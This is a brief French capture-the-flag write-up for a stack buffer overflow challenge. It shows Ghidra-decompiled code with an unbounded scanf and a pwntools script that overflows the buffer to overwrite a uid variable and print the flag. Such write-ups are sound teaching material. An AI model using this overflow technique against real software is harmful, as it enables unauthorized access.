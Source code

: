 # Ret2win

Avec Ghidra, on tombe rapidement sur main:

```c
undefined8 main(void)

{
  undefined local_38 [44];
  __uid_t local_c;
 
  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

## Padding

![](./padding.png)

## Win

On cherche à mettre `uid = 0`:

Méthode 1:

```python
#! /usr/bin/env python3
from pwn import *

s = remote('challenges.france-cybersecurity-challenge.fr',port=2100)

#p = s.process('./uid')

#recupere l'adresse leak du buffer 
s.recvuntil('username: ', drop=True)

payload = 'A'*56 + '\x00'*100
s.sendline(payload) 
s.interactive()
s.close()
```

Méthode2:

![](./solve.png)
